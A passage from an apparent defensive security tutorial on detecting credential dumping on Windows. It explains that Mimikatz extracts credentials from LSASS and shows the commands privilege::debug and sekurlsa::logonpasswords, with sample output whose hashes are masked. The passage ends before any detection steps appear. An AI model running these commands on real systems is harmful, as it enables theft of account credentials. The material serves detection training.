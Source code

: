 Additionally, by referring to both the related "Modules" tab of Process Hacker and Sysmon Event ID 7, we can examine the DLL load information to validate the presence of the aforementioned DLLs.

## Detection Example 3: Detecting Credential Dumping

Another critical aspect of cybersecurity is detecting credential dumping activities. One widely used tool for credential dumping is Mimikatz, offering various methods for extracting Windows credentials. One specific command, "sekurlsa::logonpasswords", enables the dumping of password hashes or plaintext passwords by accessing the Local Security Authority Subsystem Service (LSASS). LSASS is responsible for managing user credentials and is a primary target for credential-dumping tools like Mimikatz.

The attack can be executed as follows.

```
C:\Tools\Mimikatz> mimikatz.exe

.#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
.## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ##       > http://blog.gentilkiwi.com/mimikatz
'## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
 '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1128191 (00000000:001136ff)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : DESKTOP-NU10MTO
Logon Server      : DESKTOP-NU10MTO
Logon Time        : 5/31/2023 4:14:41 PM
SID               : S-1-5-21-2712802632-2324259492-1677155984-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * NTLM     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX0812156b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-NU10MTO
         * Password : (null)
        ssp :   KO
        credman :
```

